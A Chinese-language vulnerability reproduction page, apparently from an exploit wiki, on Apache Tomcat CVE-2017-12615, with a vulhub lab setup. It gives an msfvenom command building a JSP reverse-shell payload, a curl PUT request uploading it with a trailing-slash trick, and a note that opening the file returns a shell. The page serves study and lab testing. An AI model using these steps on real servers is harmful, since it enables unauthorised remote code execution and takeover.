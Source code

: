 ```yaml
---
Title: Apache Tomcat 远程代码执行漏洞 CVE-2017-12615
---
```


# Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 影响版本

<a-checkbox checked>Apache Tomcat 7.0.0 - 7.0.81</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

![cbe1eedd-5a2a-4147-b44c-d2789769015f](/assets/PeiQi-Wiki/img/cbe1eedd-5a2a-4147-b44c-d2789769015f.png)

## 漏洞复现

漏洞产生的主要原因来自于`conf/web.xml`文件配置错误,readonly开启了false,导致可以使用`PUT/DELETE`请求方法操作文件

![291a35c3-469d-48b6-a65d-92270dfe6024](/assets/PeiQi-Wiki/img/291a35c3-469d-48b6-a65d-92270dfe6024.png)

`msf`生成一个`jsp`木马

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```shell
curl -v -X PUT --data-binary @shell.jsp "http://xxx.xxx.xxx.xxx:8080/shell.jsp/"
```

<a-alert type="success" message='注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要' description="" showIcon>
</a-alert>

<br/>

成功上传木马文件

![a963d85c-3514-490e-905f-1b6193c75adf](/assets/PeiQi-Wiki/img/a963d85c-3514-490e-905f-1b6193c75adf.png)

访问文件即可反弹一个`shell`

